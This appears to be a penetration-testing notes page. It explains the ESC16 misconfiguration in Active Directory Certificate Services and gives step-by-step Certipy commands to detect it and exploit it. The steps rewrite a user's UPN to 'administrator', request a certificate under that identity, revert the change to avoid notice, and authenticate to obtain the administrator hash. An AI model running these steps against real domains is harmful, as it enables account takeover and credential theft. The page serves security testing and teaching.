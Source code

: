 # ESC16

_"The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own `userPrincipalName` and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured."_

{% embed url="https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6" %}

#### Methodology

* Run Certipy (version 5.X.X) and check the output
* If the Certificate is vulnerable to ESC16, exploit it
* Leverage ESC16 to escalate privilege



## ESC16 detection&#x20;

Using `certify v5.0.2` from kali linux machine to detect if the certicate is vulnerables.

<pre class="language-bash" data-title="With Pass" data-overflow="wrap"><code class="lang-bash"><strong>certipy find -u 'user@domain.com' -p 'PASS' -dc-ip IP -vulnerable -enabled
</strong></code></pre>

{% code title="With Hash" overflow="wrap" %}
```bash
certipy find -u 'user@domain.com' -hashes 'HASH' -dc-ip IP -vulnerable -enabled
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### **Exploitation of ESC16 Vulnerability Using Certipy**

1. **Update UserPrincipalName** (UPN) of a user to impersonate another user (like `administrator`).

{% code overflow="wrap" %}
```bash
certipy account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'administrator' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

This allows the user to request certificates for the `administrator` identity.

2. **Verify** the Attribute Update

```bash
certipy account -u 'USER' -p 'PASS' -dc-ip IP -u 'MOD_USER' read
```

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Now the UPN is set to `administrator` .

3. **Request Certificate** as `administrator`&#x20;

{% code overflow="wrap" %}
```bash
certipy req -dc-ip IP -u 'administrator' -p 'USER_PASS' -target 'DC.domain.com' -ca 'CA_NAME' -template 'User'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

4. **Revert the UPN change** to prevent suspiciuos or disruption.

{% code overflow="wrap" %}
```bash
certify account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'USER_TO_MOD' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>



### Get access with administrator certificate

Once we obtained the `administrator.pfx` certificate, we can use it to get his hash.

```bash
certipy auth -pfx administrator.pfx -domain 'domain.com' -dc-ip IP 
```

<figure><img src="../../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

